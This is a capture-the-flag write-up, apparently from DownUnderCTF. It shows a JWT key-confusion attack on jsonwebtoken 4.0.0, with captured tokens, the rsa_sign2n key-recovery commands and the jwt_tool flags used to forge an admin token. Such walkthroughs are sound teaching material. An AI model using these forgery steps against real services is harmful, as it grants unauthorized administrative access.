 Based on jsonwebtoken version 4.0.0 There is a vulnerabilities called `key confusion` In order to exploit this vuln we need a public key

Then i found this writeup on google https://ctftime.org/writeup/30541, this chall is from DownUnderCTF 2021

There's a tool called [rsa_sign2n](https://github.com/silentsignal/rsa_sign2n) that derives a publickey from two pair off signed key

So, i make a two token using same credentials by login on the site

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoiZGFmYSIsImlhdCI6MTcyMDI1NDA0OX0.JCOomEW0VvV4GBHL17g4IkFUTWGU7DOxoY2pqd1o8wUkHNBzj8LCOx2xLjhZElNNnRbEP8Rd9LxGykc8vvlo4h8Kyf_VoOk_TQNa-VQsV9Q9cNbwZEuiNNj6ep1gP0THeAhDnbadgGmU4Cf29ZPypsSe1nn2tzS4bhJ7oqnRz1jO7k4DvEN3x_BrAtzFHFgIahz9gNURhr4Cp9-pJKs4CCj3wu4y4bpNh3yFfNLIj4LPZlBGdaAAeRY9SH5P3DBzxWD-x3SjE6tS8i3C52ETfaBQicVi2u3SJR4kraohdiLPBjvv4Nn776yIHItX1bepzKMMqcrG-e5s_CTSCZ2bPw

eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoiZGFmYSIsImlhdCI6MTcyMDI1NDA4NX0.WXr8B9x7ydSBsS8upSk0w6SPucxXYvzJCl8mvRkP7wRp1hRQ_WPNe0hGb2r-jKK7-FBCVVkT_2NYxjnJmONlIOVAl_9JNBFkBVtgctkwgmkIhCR03OFWBK4jiQP3afKllG9EhRfrUc3BhUldp7h5lmSEXkt60sa6CJrYB_Ez2a_pzVpwhG81wIgaQl_Edx1pSGb6-BLroCB3yQvcVUZ4a1gDj1VB2jKZCV_Gbg8DaSuPyAXp3qbv_eREA6LoMigcS1xtc9IWHZEw7ZO_ui0RhEbPBJ2uBqEhW65lnzd8BpDoh70ORysC8NhRqAScAvX6DvxsXkL6vEv54GU8__AIvQ
```

Docker build on standalone folder from rsa_sig2n git

```bash
docker build -t rsa-sign2n .
docker run -it rsa-sign2n /bin/bash
```

Then pass the pair of the signed key
```bash
python3 jwt_forgery.py \
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoiZGFmYSIsImlhdCI6MTcyMDI1NDA0OX0.JCOomEW0VvV4GBHL17g4IkFUTWGU7DOxoY2pqd1o8wUkHNBzj8LCOx2xLjhZElNNnRbEP8Rd9LxGykc8vvlo4h8Kyf_VoOk_TQNa-VQsV9Q9cNbwZEuiNNj6ep1gP0THeAhDnbadgGmU4Cf29ZPypsSe1nn2tzS4bhJ7oqnRz1jO7k4DvEN3x_BrAtzFHFgIahz9gNURhr4Cp9-pJKs4CCj3wu4y4bpNh3yFfNLIj4LPZlBGdaAAeRY9SH5P3DBzxWD-x3SjE6tS8i3C52ETfaBQicVi2u3SJR4kraohdiLPBjvv4Nn776yIHItX1bepzKMMqcrG-e5s_CTSCZ2bPw \
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoiZGFmYSIsImlhdCI6MTcyMDI1NDA4NX0.WXr8B9x7ydSBsS8upSk0w6SPucxXYvzJCl8mvRkP7wRp1hRQ_WPNe0hGb2r-jKK7-FBCVVkT_2NYxjnJmONlIOVAl_9JNBFkBVtgctkwgmkIhCR03OFWBK4jiQP3afKllG9EhRfrUc3BhUldp7h5lmSEXkt60sa6CJrYB_Ez2a_pzVpwhG81wIgaQl_Edx1pSGb6-BLroCB3yQvcVUZ4a1gDj1VB2jKZCV_Gbg8DaSuPyAXp3qbv_eREA6LoMigcS1xtc9IWHZEw7ZO_ui0RhEbPBJ2uBqEhW65lnzd8BpDoh70ORysC8NhRqAScAvX6DvxsXkL6vEv54GU8__AIvQ
```

![alt text](image.png)
From the output, i get 4 files of public key, so i thought i need to try each of it

In jwt_tool we can run the `Key-Confusion` exploit using `-X k` flags. But first we need to tamper the `user` value to `admin` on the token.
![alt text](image-1.png)

And then run the `jwt_tool` with `-X k -pk publickey.pem` flags to the tampered token

Then we can replace the token with the generated token from `jwt_tool`

After that we can go to the admin page and get the flag

> DUCTF{c0nfus!ng_0nE_bUG_@t_a_tIme}
